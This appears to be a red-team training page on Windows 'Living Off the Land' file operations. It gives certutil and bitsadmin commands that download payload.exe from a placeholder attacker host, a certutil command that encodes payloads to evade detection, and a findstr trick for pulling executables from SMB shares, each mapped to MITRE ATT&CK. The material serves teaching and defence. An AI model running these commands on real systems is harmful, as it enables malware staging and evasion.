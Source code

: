 # Living Off the Land: File Operations

This section covers commonly used Windows tools for file operations, often leveraged in real-world malware activities and red team engagements. These "Living Off the Land" (LOtL) techniques include downloading, uploading, and encoding files using built-in utilities.

---

## Certutil

**Certutil** is a Windows built-in utility for handling certification services. While its primary use is to retrieve certificate information, it can also be abused to transfer and encode files unrelated to certification services.

- **MITRE ATT&CK:** [Ingress Tool Transfer (T1105)](https://attack.mitre.org/techniques/T1105/)

### Downloading a File

You can use `certutil.exe` to download a file from an attacker's web server and store it in the Windows temporary folder:

```cmd
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
```

- `-URLcache`: Enables the URL option.
- `-split -f`: Splits and forces fetching files from the provided URL.

### Encoding a File

`certutil.exe` can also encode files to obfuscate them, making detection and analysis more difficult.

- **MITRE ATT&CK:** [Obfuscated Files or Information (T1027)](https://attack.mitre.org/techniques/T1027/)

```cmd
certutil -encode payload.exe Encoded-payload.txt
```

For more information, see [Microsoft Docs: CertUtil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil).

---

## BITSAdmin

**BITSAdmin** is a system administrator utility for creating, downloading, or uploading Background Intelligent Transfer Service (BITS) jobs.

- **MITRE ATT&CK:** [BITS Jobs (T1197)](https://attack.mitre.org/techniques/T1197/)

Attackers may abuse BITS jobs to download and execute malicious payloads.

```cmd
bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe
```

- `/transfer`: Initiates a transfer job.
- `/Download`: Specifies download type.
- `/priority Foreground`: Sets the job priority.

For more details, see [Microsoft Docs: BITSAdmin](https://learn.microsoft.com/en-us/windows/win32/bits/bitsadmin-tool).

---

## FindStr

**Findstr** is a built-in tool for searching text and string patterns in files or command output. It can also be abused to download remote files from SMB shared folders:

```cmd
findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe
```

- `/V`: Prints lines that do **not** contain the specified string.
- `dummystring`: A string that is not expected to be found.
- `>`: Redirects output to a file.

---

## Additional Resources

Other tools can be used for file operations. For a comprehensive list, visit the [LOLBAS project](https://lolbas-project.github.io/).

---

In the next section, we will introduce tools used to execute files.